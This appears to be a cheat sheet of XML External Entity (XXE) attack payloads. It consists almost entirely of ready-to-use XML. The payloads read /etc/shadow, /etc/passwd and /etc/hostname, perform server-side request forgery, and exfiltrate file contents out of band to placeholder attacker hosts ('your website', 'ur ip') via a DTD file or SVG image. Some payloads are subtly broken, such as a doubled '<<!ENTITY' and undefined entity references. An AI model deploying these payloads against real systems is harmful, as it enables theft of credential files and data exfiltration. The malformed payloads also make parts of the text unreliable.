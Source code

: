 XXE: Basic XML Example

<?xml version="1.0" encoding="utf-8"?>
	<userInfo>
	  <firstName>Rahul</firstName>
  	  <lastName>Jain</lastName>
 	</userInfo>

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: Entity Example

<?xml version="1.0" encoding="utf-8"?>

	<!DOCTYPE replace [
	<!ENTITY test "Doe"> ]> 
	 <userInfo>
  	   <firstName>Rahul</firstName>
	   <lastName>&test;</lastName>
 	 </userInfo>

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: File Disclosure Example 

<?xml version="1.0" encoding="utf-8"?>
	
	<!DOCTYPE replace [
	 <!ENTITY test SYSTEM "file:///etc/shadow"> ]>
	 <userInfo>
	   <firstName>Rahul</firstName>
 	   <lastName>&test;</lastName>
	 </userInfo>

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: Local File Inclusion Example

<?xml version="1.0" encoding="utf-8"?>
 	<!DOCTYPE foo [  
	<!ELEMENT foo (#ANY)>
	<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
	<foo>&xxe;</foo>

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: Server Side Request Forgery Example

<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE reset [
	<!ENTITY % remote SYSTEM 'http://IP/file_name'>
	%remote;
	%int;
	%trick; ]>

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: Payload Using DTD File

	<!ENTITY % a SYSTEM 'file:///etc/passwd'>
	<!ENTITY % b "<!ENTITY &#x25; c SYSTEM 'your website/cookie=?%a;'> " > 
	%b;
	%c;

(&#x25),(&#37) Are the  Hex and decimal value of (%)

To Call This File   

<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE xxe [
	<!ENTITY % remote SYSTEM 'http://IP/file_name'>
	%remote;

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: Exploit Using SVG Image 

	<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: Exploit Using SVG Image (Out Of Band Method)

	<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <<!ENTITY % a SYSTEM "file:///etc/hostname" >>  <!ENTITY b SYSTEM "ur ip/x=?%a; " > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>

----------------------------------------------------------------------------------------------------------------------------------------------------------
